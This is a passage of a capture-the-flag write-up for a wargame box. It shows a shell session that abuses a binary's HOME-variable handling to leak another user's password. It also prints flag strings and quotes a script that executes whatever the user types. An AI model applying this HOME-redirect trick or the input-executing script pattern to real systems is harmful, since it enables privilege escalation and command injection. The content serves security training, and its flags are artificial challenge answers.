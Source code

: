 ```shell title="Exploit it"
atalanta@hades:~$ ls -lh /var/lib/me
-r--r----- 1 athena athena 21 Jul 26  2023 /var/lib/me
atalanta@hades:~$ id athena
uid=2006(athena) gid=2006(athena) groups=2006(athena)
atalanta@hades:~$ mkdir /tmp/tessssssssssssssssssssssssst
atalanta@hades:~$ touch /tmp/tessssssssssssssssssssssssst/as
atalanta@hades:~$ export HOME=/tmp/tessssssssssssssssssssssssst/as
atalanta@hades:/pwned/atalanta$ chmod 777 /tmp/tessssssssssssssssssssssssst/as
atalanta@hades:/pwned/atalanta$ ./weird
HOME detected: /tmp/tessssssssssssssssssssssssst/as
atalanta@hades:/pwned/atalanta$ cat /tmp/tessssssssssssssssssssssssst/as
kmQMpZsXgOsnzGReRcoV
```

## User - athena

### flag - 14

```plaintext
^oGwmbNYdtHwJgznZdur^
```

### 任务目标

```plaintext title="mission.txt"
User aura lets us use her new script.
```

### 行动

```plaintext title="ls -lah"
drwxr-x--- 2 root   athena 4.0K Jul 26  2023 .
drwxr-xr-x 1 root   root   4.0K Jul 26  2023 ..
-rw-r--r-- 1 athena athena  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 athena athena 3.5K Apr 23  2023 .bashrc
-rw-r--r-- 1 athena athena  807 Apr 23  2023 .profile
-rw-r----- 1 root   athena  166 Jul 26  2023 auri_old.sh
-rw-r----- 1 root   athena   22 Jul 26  2023 flagz.txt
-rw-r----- 1 root   athena  160 Jul 26  2023 mission.txt
```

脚本原文

```shell title="auri_old.sh"
#!/bin/bash
echo "What?"
read hackme
#Secure the condition!
#if [[$hackme =~ "????????"]]; then
#exit
#fi
#Add newest Aura pass!
#$hackme AURANEWPASS 2>/dev/null
```
